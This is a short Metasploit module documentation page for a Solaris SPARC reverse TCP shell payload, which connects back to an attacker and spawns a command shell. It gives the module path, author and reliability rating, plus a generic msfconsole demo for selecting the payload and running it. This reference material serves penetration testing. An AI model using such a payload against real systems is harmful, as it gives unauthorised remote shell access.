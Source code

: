 ## Solaris Command Shell, Reverse TCP Inline

Connect back to attacker and spawn a command shell


## Module Name
payload/solaris/sparc/shell_reverse_tcp

## Authors
vlad902





## Platforms
solaris

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/solaris/sparc/shell_reverse_tcp
msf payload(shell_reverse_tcp) > show targets
   ... a list of targets ...
msf payload(shell_reverse_tcp) > set TARGET <target-id>
msf payload(shell_reverse_tcp) > show options
   ... show and set options ...
msf payload(shell_reverse_tcp) > run
```
    
    